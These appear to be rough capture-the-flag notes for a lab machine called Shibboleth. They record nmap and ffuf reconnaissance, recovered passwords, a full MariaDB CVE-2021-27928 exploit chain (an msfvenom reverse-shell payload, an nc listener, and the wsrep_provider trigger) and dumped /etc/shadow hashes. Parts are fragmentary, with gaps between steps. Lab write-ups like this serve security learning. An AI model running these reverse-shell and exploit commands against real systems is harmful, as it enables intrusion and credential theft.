

# Nmap
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
add the domain to /etc/hosts


Access the website:


checking vhosts 

ffuf -u http://shibboleth.htb/ -H "HOST: FUZZ.shibboleth.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-med
ium-words.txt -mc 200


 found monitor monitoring Monitor adding that to /etc/hosts
 


 
 Team:

 walter white 
 chief executirve officer 
 
 sarah jhonson
 product Manager 
  
  william anderson 
  CTO
  
  Amanda Jepson 
  accountant
  
  
 loggin ?????
 
 
 Administrator:ilovepumkinpie1
 
 
 
 after doing so you will get a shell on the port you specifed. 
 
 

 we cant test for sudo -l 
 
 
 
  
 we can now access my sql db 
 
 


 
checking version on mariadb 

database password: bloooarskybluh


https://github.com/Al1ex/CVE-2021-27928
found an exploit for 10.3.25

Step 1: on kali generate payload.
	sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.181 LPORT=6687 -f elf-so -o pwnd.so
	
Step 2: Start a listener
	nc -lnvp 6687

Step 3: Via Dumpfile
	python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
	mysql -u <user> -p -h <ip>
	SELECT UNHEX('PYTHON_OUTPUT') into dumpfile '/tmp/CVE-2021-27928.so';

Step 4: Execute the Payload
	mysql -u <user> -p -h <ip>
	SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";


cat /etc/shadow 

root:$6$HeRqkRJL9pttp4EY$TBE4vztPy9lOaywPhVdhQHwiPa09s7RJw418EMjmS0RKea/1QBwLqTHK84ato5yDBF59dMvSNbQQ1pVy.K1dp.:18741:0:99999:7::: 

PasswordHash: For PDF in ~/Downloads


ipmi-svc:$6$rnKUQQE9QwT1bVVt$7JWeqxtaYfMZa0EO0clguLK4Fh3N/IN6djXUl2M2MQ5PHVmQ1vLwlxnNMVhn7y/oEpjltVyvbw1wbBBZ//apV.:18925:0:99999:7::: 


 
